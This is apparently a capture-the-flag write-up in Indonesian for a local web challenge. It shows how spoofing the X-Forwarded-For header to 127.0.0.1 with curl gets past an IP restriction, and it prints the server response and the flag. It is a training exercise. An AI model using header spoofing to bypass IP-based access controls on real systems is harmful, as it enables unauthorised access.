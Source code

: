 <h1><b>Internet Address</h1></b>
<pre>
Internet Address
</pre>
</b><h3>Solution</h3></b>
<p>IP kita tidak diizinkan untuk mengakses URL, disini terkait dengan header <b>X-Forwarded-For</b></p>
<p>Ganti IP address dengan parameter X-Forwarded-For</p>

```console
root@Python:/home/venom/Downloads# curl --header "X-Forwarded-For:127.0.0.1" http://localhost/CTF/Web_warning/Web-Warning-10.php
<!DOCTYPE html>
<html>
<head>
	<title>Web Warning-10</title>
	<link rel="stylesheet" type="text/css" href="most_template.css" media="all" />
</head>
<body align='center'>
<h3 class='success'>OK your ip is 127.0.0.1, Flag is VenomCTF{S3rv3r_r3quest_addr355}

</body>

```
</b><h3>Flag</h3></b>
<pre>
VenomCTF{S3rv3r_r3quest_addr355}
</pre>
